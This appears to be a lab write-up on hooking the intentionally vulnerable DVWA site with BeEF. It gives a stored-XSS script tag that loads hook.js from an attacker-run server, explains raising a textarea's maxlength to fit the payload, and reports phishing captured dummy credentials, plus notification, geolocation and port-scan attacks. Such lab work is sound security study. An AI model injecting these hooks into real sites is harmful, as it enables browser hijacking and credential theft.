







## "Hooking the DVWA Website via BeEF"

### 1. Successfully "hooked" URL 192.168.13.25 on port 80 / Firefox

  

**NOTE: the payload required to "hook" the DVWA website requires injecting a script. However the script (script src="http://127.0.0.1:3000/hook.js"></script) has to many words to be fully pasted into the message. In-order to fix this limitation, you must change setting in the Inspect Element. Specifically the textarea name / maxlength from 50 to 75.**

### [Picture of script too short](hook-2.PNG) 

### [Picture of script length correct](hook-500.PNG)

### 2. Launching the Pretty Theft Attack

 

* Victim entered the following: 

    A) Email: Rob1@fake.com

    B) Password: 12345678

     

* You can also see what the victim entered for EMAIL and PASSWORD in the LOGS TAB:

     

* Picture of the attack from Linux Command Line

     

### NOTE: From the pictures above you can see that the attack was SUCCESSFULL

**A) Example of a SUCCESSFULL Fake Notification Attack**

 

 **B) Example of a SUCCESSFULL Get Geolocation (Third Party) Attack**

 **C) Example of a SUCCESSFULL Port Scanner Attack**

